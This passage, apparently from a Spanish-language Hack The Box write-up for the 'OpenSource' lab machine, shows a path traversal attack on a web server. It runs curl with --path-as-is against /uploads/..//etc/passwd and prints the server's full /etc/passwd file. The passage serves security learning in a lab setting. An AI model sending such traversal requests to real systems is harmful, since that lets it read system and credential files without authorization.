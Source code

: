 <img src="/assets/images/htb-writeup-opensource/Captura22.png">
</p>

Excelente, entonces es posible aplicar **LFI** contra la página web.

También podemos aplicarlo con **curl**, agregando el parámetro `--path-as-is`:
```bash
curl --path-as-is http://10.10.11.164/uploads/..//etc/passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
```
